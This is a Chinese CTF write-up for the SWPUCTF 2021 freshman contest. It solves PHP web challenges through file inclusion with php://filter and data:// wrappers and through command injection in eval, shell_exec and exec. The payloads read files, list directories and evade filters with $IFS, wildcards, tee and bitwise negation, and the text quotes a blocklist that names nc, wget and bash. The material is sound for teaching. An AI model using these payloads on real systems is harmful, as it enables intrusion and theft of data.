 ```yaml
---
title: SWPUCTF 2021 新生赛
date: 2022-05-14 22:12:01
tags:
- CTF
- PHP伪协议
- RCE
categories: CTF
my: SWPUCTF_freshman-match
---
```


 

部分题目WP

## **PseudoProtocols**(伪协议)

看到题目就是伪协议   直接用下面代码查看hint.php

```
?wllm=php://filter/read=convert.base64-encode/resource=hint.php
```

base64解码后看见

```
<?php
//go to /test2222222222222.php
?>
```

直接访问出现下列代码

```
<?php
ini_set("max_execution_time", "180");
show_source(__FILE__);
include('flag.php');
$a= $_GET["a"];
if(isset($a)&&(file_get_contents($a,'r')) === 'I want flag'){
    echo "success\n";
    echo $flag;
}
?>
```

第一种解法用下面的payload就可以得到flag

```
?a=data://text/plain,I want flag
```

第二种解法

```
?a=php://input
```

用burp  POST传参也能得到flag

![](https://s2.loli.net/2022/05/15/dsHFWywYONq2LMp.png)

## **include**

直接由题意传file    直接?file=1

![](https://s2.loli.net/2022/05/15/eDBxHYfQFMbz2uN.png)

"allow_url_include"，"on"意味存在着文件包含漏洞  payload如下  也可查看[php伪协议](https://segmentfault.com/a/1190000018991087)

```
?file=php://filter/read=convert.base64-encode/resource=flag.php
```

![](https://s2.loli.net/2022/05/15/DwGZmnfPHuSzTq1.png)

再进行base64解码得到flag

## **RCE部分**

### **easyrce**

源码

```
<?php
error_reporting(0);
highlight_file(__FILE__);
if(isset($_GET['url']))
{
eval($_GET['url']);
}
?>
```

有eval 但是是get传参 将传入的内容作为php代码执行 利用php可以执行Linux命令

用下列payload查看根目录

```
?url=system('ls /');
```

![](https://s2.loli.net/2022/05/15/OukxLdMYW93ZaoQ.png)

发现在根目录下  直接cat指令读取文件  拿到flag

```
?url=system('cat /flllllaaaaaaggggggg');
```

### **babyrce**

源码：

```
<?php
error_reporting(0);
header("Content-Type:text/html;charset=utf-8");
highlight_file(__FILE__);
if($_COOKIE['admin']==1) 
{
    include "../next.php";
}
else
    echo "小饼干最好吃啦！";
?> 小饼干最好吃啦！
```

看见题目 cookie传参，键名为admin，值为1，直接传

![](https://s2.loli.net/2022/05/15/ns2AIqJNZ9OrdTc.png)

发现rasalghul.php我们去访问

```
<?php
error_reporting(0);
highlight_file(__FILE__);
error_reporting(0);
if (isset($_GET['url'])) {
  $ip=$_GET['url'];
  if(preg_match("/ /", $ip)){
      die('nonono');   //这里过滤了空格 如果 用到了空格输出nonono
  }
  $a = shell_exec($ip);
  echo $a;
}
?>
```

我们可以用其他符号代替$IFS、IFS$9、%09具体可以百度

直接看根目录  发现 flag  

![](https://s2.loli.net/2022/05/15/ZmyugPC1AJQX9I6.png)

然后cat 拿到flag

![](https://s2.loli.net/2022/05/15/UirzT23vXxMLuRW.png)



### **finalyrce**

```
<?php
highlight_file(__FILE__);
if(isset($_GET['url']))
{
    $url=$_GET['url'];
    if(preg_match('/bash|nc|wget|ping|ls|cat|more|less|phpinfo|base64|echo|php|python|mv|cp|la|\-|\*|\"|\>|\<|\%|\$/i',$url))
    {
        echo "Sorry,you can't use this.";
    }
    else
    {
        echo "Can you see anything?";
        exec($url);
    }
}
```

这道题就过滤了很多字符   通过[Linux tee命令](https://www.runoob.com/linux/linux-comm-tee.html)写入文件 用dir / | tee guxi可以在当前目录下生成guxi文件

然后去访问url/guxi就可以访问guxi文件

![](https://s2.loli.net/2022/05/15/SbpIiMAmDntJqTO.png)

找到flag  可以用tac代替cat命令  发现直接读取不行   仔细代码审计发现过滤了la没有过滤?我们可以用?代替字母即可

![](https://s2.loli.net/2022/05/15/ifIbCKlPdZozrcn.png)

然后再访问guxi文件就能看见flag

![](https://s2.loli.net/2022/05/15/G8anzRiSHvUb7Z4.png)

### **hardrce**

源码:

```
<?php
header("Content-Type:text/html;charset=utf-8");
error_reporting(0);
highlight_file(__FILE__);
if(isset($_GET['wllm']))
{
    $wllm = $_GET['wllm'];
    $blacklist = [' ','\t','\r','\n','\+','\[','\^','\]','\"','\-','\$','\*','\?','\<','\>','\=','\`',];
    foreach ($blacklist as $blackitem)
    {
        if (preg_match('/' . $blackitem . '/m', $wllm)) {
        die("LTLT说不能用这些奇奇怪怪的符号哦！");
    }}
if(preg_match('/[a-zA-Z]/is',$wllm))
{
    die("Ra's Al Ghul说不能用字母哦！");
}
echo "NoVic4说：不错哦小伙子，可你能拿到flag吗？";
eval($wllm);
}
else
{
    echo "蔡总说：注意审题！！！";
}
?> 蔡总说：注意审题！！！
```

打开题目 我直接人麻了  过滤了很多  但仔细看有一个符号没有被过滤“~”取反符号

具体可查看[此文章](https://blog.csdn.net/WilliamsWayne/article/details/78259501)

百度用php在线工具   直接取反命令

![](https://s2.loli.net/2022/05/15/5prIwVCvGzoiKU3.png)

查看到了根目录 

![](https://s2.loli.net/2022/05/15/ZhM9e5Hz2Vrj6Uy.png)

在取反cat命令

![](https://s2.loli.net/2022/05/15/an5mp489BQt3L2z.png)

直接拿到flag

![](https://s2.loli.net/2022/05/15/FThj4ElRCK9rVwL.png)



还有一道我太菜了 写不来

